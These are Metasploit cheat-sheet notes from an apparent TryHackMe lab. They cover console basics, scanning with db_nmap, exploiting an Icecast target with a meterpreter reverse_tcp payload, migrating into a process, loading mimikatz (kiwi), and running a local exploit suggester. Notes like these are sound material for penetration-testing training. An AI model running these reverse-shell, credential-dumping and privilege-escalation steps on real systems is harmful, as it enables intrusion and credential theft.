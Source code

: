 First use metasploit
```bash
msfdb init
```

help
```bash
msfconsole -h

msf5 > help
```

checking DB
```bash
msf5 > db_status
```

make quick connection to host
```bash
msf5 > connect [options] <host> <port>
```
## Module
Search module
```bash
msf5 > search <module>
```

Use module
```bash
msf5 > use <module>
```

Load module
```bash
msf5 > load <module>
```

Check module info
```bash
msf5 > info <module>
```

use module with search
```bash
msf5 > search multi/handler
Matching Modules
================

   #  Name                                                 Disclosure Date  Rank       Check  Description
   -  ----                                                 ---------------  ----       -----  -----------
   0  auxiliary/scanner/http/apache_mod_cgi_bash_env       2014-09-24       normal     Yes    Apache mod_cgi Bash Environment Variable Injection (Shellshock) Scanner
   1  exploit/android/local/janus                          2017-07-31       manual     Yes    Android Janus APK Signature bypass
   2  exploit/linux/local/apt_package_manager_persistence  1999-03-09       excellent  No     APT Package Manager Persistence
   3  exploit/linux/local/bash_profile_persistence         1989-06-08       normal     No     Bash Profile Persistence
   4  exploit/linux/local/desktop_privilege_escalation     2014-08-07       excellent  Yes    Desktop Linux Password Stealer and Privilege Escalation
   5  exploit/linux/local/yum_package_manager_persistence  2003-12-17       excellent  No     Yum Package Manager Persistence
   6  exploit/multi/handler                                                 manual     No     Generic Payload Handler

msf5 > use 6
```

![](https://imgur.com/vKe4ZDj.png)

Major modules:
* Exploit : most common
* Payload : shellcode
* Encoder : in payload obfuscation, avoid signature detection
* NOP : buffer overflow
* Auxiliary : scanning & verification
* Post : looting & pivoting
## Variable

Change value of variable
```bash
msf5 > set <value>
```

Change value of variable globally
```bash
msf5 > setg <value>
```

get value of variable 
```bash
msf5 > get <value>
```

change value to null/no value
```bash
msf5 > unset <value>
```

save console output to a file
```bash
msf5 > spool
```

store setting 
```baSh
mfs5 > save
```

## Example1

run nmap & feed result to db
(-sV : detect the version of services running)
```bash
msf5 > db_nmap -sV <ip>
```

check hosts information in db
```bash
msf5 > hosts
```

check hosts 's services in db
```bash
msf5 > services
```

check hosts 's vulnerablilities
```bash
msf5 > vulns
```

connecting to it with metasploit payload
```bash
msf5 > use icecast
```

search & use  multi/handler
```bash
msf5 > search multi/handler
msf5 > use NUMBER_NEXT_TO_exploit/multi/handler
```

set variables
```bash
msf5 > set PAYLOAD windows/meterpreter/reverse_tcp
msf5 > set LHOST <YOUR_IP_ON_TRYHACKME>
```

return previous exploit
```bash
msf5 > use icecast
```

set attack target
```bash
msf5 > set RHOSTS 10.10.8.33
```

run exploit
`expoit` or `run -j`

check running jobs
```bash
msf5 > jobs
```

check sessions & attack
```bash
msf5 > sessions
msf5 > sessions -i 2
```

transfer ourself to process
```bash
msf5 > migrate <PID>
```

get user info & system info & user privileges
```bash
msf5 > getuid
msf5 > sysinfo
msf5 > getprivs
```

load mimikatz
```bash
msf5 > load kiwi
```


check vm
```bash
msf5 > run post/windows/gather/checkvm
```

check exploit suggester
```bash
msf5 > run post/multi/recon/local_exploit_suggester
```

KEYWORDS:
1. icecast
2. multi/handler

```bash
meterpreter > run post/multi/recon/local_exploit_suggester

[*] 10.10.204.88 - Collecting local exploits for x86/windows...
[*] 10.10.204.88 - 34 exploit checks are being tried...
[+] 10.10.204.88 - exploit/windows/local/bypassuac_eventvwr: The target appears to be vulnerable.
nil versions are discouraged and will be deprecated in Rubygems 4
[+] 10.10.204.88 - exploit/windows/local/ikeext_service: The target appears to be vulnerable.
[+] 10.10.204.88 - exploit/windows/local/ms10_092_schelevator: The target appears to be vulnerable.
[+] 10.10.204.88 - exploit/windows/local/ms13_053_schlamperei: The target appears to be vulnerable.
[+] 10.10.204.88 - exploit/windows/local/ms13_081_track_popup_menu: The target appears to be vulnerable.
[+] 10.10.204.88 - exploit/windows/local/ms14_058_track_popup_menu: The target appears to be vulnerable.
[+] 10.10.204.88 - exploit/windows/local/ms15_051_client_copy_image: The target appears to be vulnerable.
[+] 10.10.204.88 - exploit/windows/local/ntusermndragover: The target appears to be vulnerable.
[+] 10.10.204.88 - exploit/windows/local/ppr_flatten_rec: The target appears to be vulnerable.

```